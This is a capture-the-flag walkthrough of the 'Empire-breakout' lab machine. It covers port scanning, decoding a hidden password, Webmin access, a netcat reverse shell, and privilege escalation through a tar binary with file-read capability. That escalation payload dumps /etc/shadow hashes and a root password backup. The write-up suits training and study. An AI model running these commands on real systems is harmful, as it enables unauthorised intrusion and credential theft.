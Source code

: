 ```yaml
---
categories: [Proving Grounds Play, Walkthrough]
tags: [PrivEsc]
---
```


## **Description ⤵️**

>
💡 This machine consists of username enumeration through bruteforce then access the webshell after that play with SUIDs comamds for root !
{: .prompt-info }


### Let’s find the IP Address first >>

```bash
IP : 192.168.164.238
```

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Empire-breakout]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 192.168.164.238
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-15 14:22 IST
Stats: 0:09:20 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 39.94% done; ETC: 14:46 (0:14:02 remaining)
Warning: 192.168.164.238 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.164.238
Host is up (0.30s latency).
Not shown: 65510 closed tcp ports (reset)
PORT      STATE    SERVICE    VERSION
80/tcp    open     http       Apache httpd 2.4.51 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.51 (Debian)
2904/tcp  filtered m2ua
4078/tcp  filtered cssp
9250/tcp  filtered unknown
10000/tcp open     tcpwrapped
12407/tcp filtered unknown
12665/tcp filtered unknown
14359/tcp filtered unknown
14997/tcp filtered unknown
16032/tcp filtered unknown
17092/tcp filtered unknown
19944/tcp filtered unknown
20000/tcp open     http       MiniServ 1.830 (Webmin httpd)
|_http-server-header: MiniServ/1.830
|_http-title: 200 &mdash; Document follows
22474/tcp filtered unknown
26283/tcp filtered unknown
29720/tcp filtered unknown
31306/tcp filtered unknown
39871/tcp filtered unknown
41579/tcp filtered unknown
55786/tcp filtered unknown
57478/tcp filtered unknown
57725/tcp filtered unknown
62844/tcp filtered unknown
63324/tcp filtered unknown
63436/tcp filtered unknown

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1374.00 seconds
```

---

## Web Enumeration ⤵️

Now this machine runs an Apache server After checking the source code I got this →

![Untitled](/Vulnhub-Files/img/Empire-breakout/Untitled.png)

After decoding this Brainfuck encoding I got this →

![Untitled](/Vulnhub-Files/img/Empire-breakout/Untitled%201.png)

```bash
.2uqPEfj3D<P'a-3
```

Now I also see port 10000 and 20000 open as http-login page lets see →

![Untitled](/Vulnhub-Files/img/Empire-breakout/Untitled%202.png)

![Untitled](/Vulnhub-Files/img/Empire-breakout/Untitled%203.png)

Now after running burpsuite for username bruteforce I got this on port 20000 →

```bash
cyber : .2uqPEfj3D<P'a-3
```

After Getting password when I logged into the website →

![Untitled](/Vulnhub-Files/img/Empire-breakout/Untitled%204.png)

Now I got access for the home directory of cyber user as a web interface →

![Untitled](/Vulnhub-Files/img/Empire-breakout/Untitled%205.png)

Now I clicked into the webshell option on top right side and tried reverse shell →

![Untitled](/Vulnhub-Files/img/Empire-breakout/Untitled%206.png)

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Empire-breakout]
└─$ nc -lvp 4444
listening on [any] 4444 ...
192.168.164.238: inverse host lookup failed: Unknown host
connect to [192.168.45.219] from (UNKNOWN) [192.168.164.238] 33992
python -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
cyber@breakout:~$ whoami
whoami
cyber
cyber@breakout:~$ id
id
uid=1000(cyber) gid=1000(cyber) groups=1000(cyber),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
cyber@breakout:~$
```

Lets see the files →

```bash
cyber@breakout:~$ ls -al
ls -al
total 572
drwxr-xr-x  8 cyber cyber   4096 Jul 15 06:16 .
drwxr-xr-x  3 root  root    4096 Oct 19  2021 ..
-rw-------  1 cyber cyber      0 Oct 20  2021 .bash_history
-rw-r--r--  1 cyber cyber    220 Oct 19  2021 .bash_logout
-rw-r--r--  1 cyber cyber   3526 Oct 19  2021 .bashrc
drwxr-xr-x  2 cyber cyber   4096 Oct 19  2021 .filemin
drwx------  2 cyber cyber   4096 Oct 19  2021 .gnupg
drwxr-xr-x  3 cyber cyber   4096 Oct 19  2021 .local
-rw-r--r--  1 root  root      33 Jul 15 04:49 local.txt
-rw-r--r--  1 cyber cyber    807 Oct 19  2021 .profile
-rw-r--r--  1 cyber cyber   3464 Jul 15 06:16 shell.php
drwx------  2 cyber cyber   4096 Oct 19  2021 .spamassassin
-rwxr-xr-x  1 root  root  531928 Oct 19  2021 tar
drwxr-xr-x  2 cyber cyber   4096 Jul 15 06:23 .tmp
drwx------ 17 cyber cyber   4096 Jul 15 06:12 .usermin
cyber@breakout:~$ cat local.txt	
cat local.txt
acff2c9656634fdd92b71c7c91d1e01c
cyber@breakout:~$
```

while checking capabilities I got tar →

```bash
cyber@breakout:/$ getcap -r / 2>/dev/null
/home/cyber/tar cap_dac_read_search=ep
/usr/bin/ping cap_net_raw=ep
cyber@breakout:/$
```

If I can’t be root directly through executing the payload of tar into the shell so lets try to read the content of root priviledge files through this payload →

```bash
File read >

LFILE=file_to_read
tar xf "$LFILE" -I '/bin/sh -c "cat 1>&2"'
```

```bash
cyber@breakout:~$ ./tar xf /etc/shadow -I '/bin/sh -c "cat 1>&2"'      
root:$y$j9T$eJzu0TYuqGwZThJJzbP6o.$Xs23PV9/MdV33YMgceRv1Ic6anL08XclYLE9UX1WiJ6:19381:0:99999:7:::
daemon:*:18919:0:99999:7:::
bin:*:18919:0:99999:7:::
sys:*:18919:0:99999:7:::
sync:*:18919:0:99999:7:::
games:*:18919:0:99999:7:::
man:*:18919:0:99999:7:::
lp:*:18919:0:99999:7:::
mail:*:18919:0:99999:7:::
news:*:18919:0:99999:7:::
uucp:*:18919:0:99999:7:::
proxy:*:18919:0:99999:7:::
www-data:*:18919:0:99999:7:::
backup:*:18919:0:99999:7:::
list:*:18919:0:99999:7:::
irc:*:18919:0:99999:7:::
gnats:*:18919:0:99999:7:::
nobody:*:18919:0:99999:7:::
_apt:*:18919:0:99999:7:::
systemd-timesync:*:18919:0:99999:7:::
systemd-network:*:18919:0:99999:7:::
systemd-resolve:*:18919:0:99999:7:::
messagebus:*:18919:0:99999:7:::
cyber:$y$j9T$x6sDj5S/H0RH4IGhi0c6x0$mIPyCIactTA3/gxTaI7zctfCt2.EOGXTOW4X9efAVW4:18919:0:99999:7:::
systemd-coredump:!*:18919::::::
cyber@breakout:~$
```

Now while enumeration I also found a file named as .old.pass.bak but it has root permission so lets try to open that file →

```bash
cyber@breakout:/var/backups$ ls -al                                     
total 484
drwxr-xr-x  2 root root   4096 Dec  8  2022 .
drwxr-xr-x 14 root root   4096 Oct 19  2021 ..
-rw-r--r--  1 root root  40960 Dec  8  2022 alternatives.tar.0
-rw-r--r--  1 root root  12674 Nov 17  2022 apt.extended_states.0
-rw-r--r--  1 root root   1467 Oct 19  2021 apt.extended_states.1.gz
-rw-r--r--  1 root root      0 Dec  8  2022 dpkg.arch.0
-rw-r--r--  1 root root    186 Oct 19  2021 dpkg.diversions.0
-rw-r--r--  1 root root    135 Oct 19  2021 dpkg.statoverride.0
-rw-r--r--  1 root root 413488 Oct 19  2021 dpkg.status.0
-rw-------  1 root root     17 Oct 20  2021 .old_pass.bak
cyber@breakout:/var/backups$
```

```bash
cyber@breakout:~$ ./tar xf /var/backups/.old_pass.bak -I '/bin/sh -c "cat 1>&2"'
Ts&4&YurgtRX(=~h
cyber@breakout:~$
```

Now lets use this string value as a password of this root user →

```bash
cyber@breakout:~$ su root
Password: 
root@breakout:/home/cyber# cd /root
root@breakout:~# whoami
root
root@breakout:~# id
uid=0(root) gid=0(root) groups=0(root)
root@breakout:~# ls -al
total 40
drwx------  6 root root 4096 Jul 15 04:50 .
drwxr-xr-x 18 root root 4096 Oct 19  2021 ..
-rw-------  1 root root 1010 Dec 14  2022 .bash_history
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
drwxr-xr-x  3 root root 4096 Oct 19  2021 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r--r--  1 root root   33 Jul 15 04:50 proof.txt
drwx------  2 root root 4096 Oct 19  2021 .spamassassin
drwxr-xr-x  2 root root 4096 Oct 19  2021 .tmp
drwx------  6 root root 4096 Oct 19  2021 .usermin
root@breakout:~# cat proof.txt
d433cb8a51a9d8e36e928a564f71d053
root@breakout:~#
```